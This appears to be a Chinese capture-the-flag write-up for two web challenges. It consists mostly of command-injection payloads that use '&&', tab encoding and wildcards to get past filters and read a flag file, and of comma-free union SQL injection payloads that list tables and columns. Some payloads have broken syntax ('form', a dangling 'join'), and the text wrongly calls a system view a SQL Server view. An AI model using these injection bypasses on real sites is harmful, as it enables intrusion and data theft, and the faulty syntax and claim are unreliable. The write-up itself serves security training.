


web
shxpl(babyRce)

ban了ls ||以及空格等命令 可以使用dir &&和%09绕过
Payload:
domain=baidu.com&&dir /
然后获取根目录下的flag⽂件，但是发现存在flag字符串存在过滤，通配符也被限制，同时 cat、 tac、tail 也存在限制
domain=baidu.com&&nl%09%2Ffl[a-z]g_xPr8rY70sInXx(babySqli)
常规联合注入 不过ban了,
# Test sqliPoint
id=juan79' and (1=1)%23
# 判断列数 因为,被ban了 所以采用 (SELECT 1)A join 绕过
id=1' union select * from ((select 1)A join (select 1)B join (select 1)C join (select 1)D join (select 1)E join )#
# get table_name DataSyncFLAG,employees
id=1' union select * form ((select group_concat(table_name) from sys.schema_table_statistics_with_buffer where table_schema=database()))A join (select 1)B join (select 1)C join (select 1)D join (select 1)E join)%23
# get column_name
id=1' union select * form ((SELECT `2` FROM (SELECT * FROM ((SELECT 1)a JOIN (SELECT 2)b) UNION SELECT * FROM DataSyncFLAG)p limit 2 offset 1)A join (select 1)B join (select 1)C join (select 1)D join (select 1)E join)%23sys.schema_table_statistics_with_buffer 是 SQL Server 中的一个系统视图，它提供了有关表和索引的统计信息，包括缓冲区中的数据页
SELECT
table_schema,
table_name,
last_user_seek,
last_user_scan,
last_user_lookup,
last_user_update,
user_seeks,
user_scans,
user_lookups,
user_updates,
buffer_pages,
buffer_mb
FROM
sys.schema_table_statistics_with_buffer
WHERE
table_schema = 'dbo'
ORDER BY
buffer_mb DESC;